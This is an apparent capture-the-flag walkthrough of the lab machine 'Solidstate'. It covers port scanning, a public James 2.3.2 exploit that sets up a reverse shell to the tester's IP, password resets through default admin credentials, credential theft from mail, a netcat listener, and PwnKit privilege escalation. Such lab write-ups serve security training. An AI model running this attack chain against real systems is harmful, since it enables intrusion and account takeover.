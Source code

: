 **Ping** 
```
ping 10.10.10.51
```
![[Pasted image 20240623170746.png]]

Nmap default Scan
```
nmap 10.10.10.51 -oN dnmap
```
![[Pasted image 20240623170844.png]]

Nmap Script and Service Scan
```
nmap 10.10.10.51 -sV -sC -A -oN snmap
```
![[Pasted image 20240623175947.png]]

Nmap All Port Scan
```
nmap 10.10.10.51 -p- --open -T5 -oN anmap
```
![[Pasted image 20240623180106.png]]
We found one extra port

Service enumeration on new port
```
nmap 10.10.10.51 -sV -sC -p4555
```
![[Pasted image 20240623180314.png]]

On port 80
![[Pasted image 20240623180025.png]]



Will Search public Exploit for James server 2.3.2 version
![[Pasted image 20240623181637.png]]
We got some
Will you the exploit db's https://www.exploit-db.com/exploits/50347

I have saved the python script in a file named exp.py as always

Will run the exploit
```
python3 exp.py 10.10.10.51 10.10.14.6 4444
```
![[Pasted image 20240623181753.png]]

So now we have to wait for someone to login via ssh to trigger over payload

Or will try some way to get in
Will try with Administrator tool on port 4555
```
telnet 10.10.10.51 4555
```
![[Pasted image 20240623181913.png]]
have used default creds **root:root**

So we are admin now, Will explore the session
```
HELP
```
![[Pasted image 20240623182006.png]]

Will list the users
```
listusers
```
![[Pasted image 20240623182309.png]]

Will change password for any user of our choice, I'm going to change password for john
```
setpassword john Password1!
```
![[Pasted image 20240623183525.png]]

Will try the new password from pop3
```
telnet 10.10.10.51 110
USER john
PASS Password1!
```
![[Pasted image 20240623183339.png]]
Great we changed password of john successfully....!

John as no emails, so will try to change passwords for other user and look for mails.

Eventually Mindy has mail
```
LIST
```
![[Pasted image 20240623200330.png]]

Will read the content
```
RETR 1
RETR 2
```
![[Pasted image 20240623200448.png]]

We got SSH creds on 2nd email
![[Pasted image 20240623200523.png]]
**mindy:P@55W0rd1!2@**

Will ssh now
```
ssh mindy@10.10.10.51
```
![[Pasted image 20240623201958.png]]
Now will check on our reverse shell

```
rlwrap nc -nvlp 4444
```
![[Pasted image 20240623202048.png]]
Nice....1

**user.txt**
![[Pasted image 20240623202205.png]]

Now will jump to privilege escalation......!


After a long Enumeration there is now way around to get escalate my Privileges

But there is one, PwnKit it is....!

I can see pkexec has SUID , So I have check Pkexec version and it is vulnerable one 
```
find / -perm -u=s -type f 2>/dev/null
```
```
pkexec --version
```
![[Pasted image 20240623205803.png]]

It is 32bit system, so I have transferred Pwnkit32 to the target machine and ran it
```
chmod +x Pwnkit32
./Pwnkit32
```
![[Pasted image 20240623210032.png]]
wE aR3 R0ot....!

**Root.txt**
![[Pasted image 20240623210149.png]]





Done with Solidstate......:)